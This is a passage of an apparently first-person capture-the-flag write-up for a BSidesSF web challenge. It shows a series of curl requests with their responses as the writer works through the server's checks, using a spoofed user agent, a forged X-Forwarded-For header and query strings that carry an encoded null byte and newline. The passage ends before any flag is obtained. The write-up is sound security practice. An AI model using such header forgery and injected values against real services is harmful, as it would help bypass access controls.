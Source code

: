 I'm sorry, I was expecting you to be using a 1337 Browser.
```


```
$ curl -i -A "1337 Browser" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 11
date: Tue, 09 Mar 2021 23:41:42 GMT
content-length: 74
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

I'm sorry, I was expecting your browser version (v.XXXX) to be over 9000!
```

```
$ curl -i -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 10
date: Tue, 09 Mar 2021 23:41:57 GMT
content-length: 66
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

I'm sorry, I was expecting this to be forwarded through 127.1.1.1
```

```
$ curl -i -H "X-Forwarded-For: 127.1.1.1" -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 10
date: Tue, 09 Mar 2021 23:42:36 GMT
content-length: 66
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

I'm sorry, I was expecting this to be forwarded through 127.1.1.1
```

```
$ curl -i -H "X-Forwarded-For: 127.1.1.1,127.1.1.1" -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 10
date: Tue, 09 Mar 2021 23:42:52 GMT
content-length: 65
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear
